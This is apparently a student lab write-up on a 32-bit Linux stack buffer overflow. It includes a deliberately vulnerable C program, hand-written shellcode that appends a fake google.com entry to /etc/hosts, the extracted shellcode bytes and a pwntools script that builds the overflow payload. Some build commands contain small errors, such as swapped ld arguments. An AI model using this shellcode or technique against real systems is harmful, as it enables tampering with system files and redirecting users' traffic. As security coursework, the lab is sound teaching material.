 # Lab #1
## Task 1: Software buffer overflow attack

### 1. Compile asm program and C program to executable code:
*Note: Both files are to be put in the same folder*

***Compile vuln.c:***

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
*The function strcpy(buffer, argv[1]) copies data into the buffer without checking for overflow, making it vulnerable.*

To compile the vulnerable C program without security mechanisms, run:

```sh
gcc -g -m32 vuln.c -o vuln.out -fno-stack-protector -z execstack 
```

Here, -fno-stack-protector disables stack protection, and -z execstack
allows execution on the stack (where the shell code will be placed).

***Compile sh.asm:***

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

Then, compile it using nasm and ld:

```sh
nasm -f elf sh.asm -o sh.o
ld -m elf_i386 sh -o sh.o
```

This will generate an object file from the assembly file.

### 2. Trigger the buffer overflow
"Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux."

#### Step 1: Extract shellcode from the binary
*We use objdump to extract the byte sequence for the attack:*

```sh
objdump -d sh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

*Which gives this after cleaning:*

```\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d```

#### Step 2: Identify the offset
*(Where the buffer overflows into the return address)*

```sh
gdb -q vuln.out
gdb-peda$ run $(python -c 'print "A"*20')
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/1.png)

Here, we can see `0xffffd740 ('A' <repeats 20 times>)` on the stack. The buffer is stored here, which is likely to be where the shell code is placed after the overflow. 

### 3: Construct the payload and conduct the attack
#### Step 1: Construct the payload

```py
from pwn import *

payload = b"A" * 20  # Fill the buffer and EBP to go straight to the return address
payload += b"\x40\xd7\xff\xff"  # Overwrite EIP, address where execution will jump to after overflow
payload += b"\x90" * 200  # NOP sled in case return address is off
payload += b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"  # Shell code

with open("payload.txt", "wb") as f:
    f.write(payload)
```

#### Step 2: Run and verify attack

##### 1. Run the program (with root permission)
```sh
sudo ./vuln.out "$(cat payload.txt)"
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/2.png)

##### 2. Verify the changes
```sh
cat /etc/hosts
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/3.png)
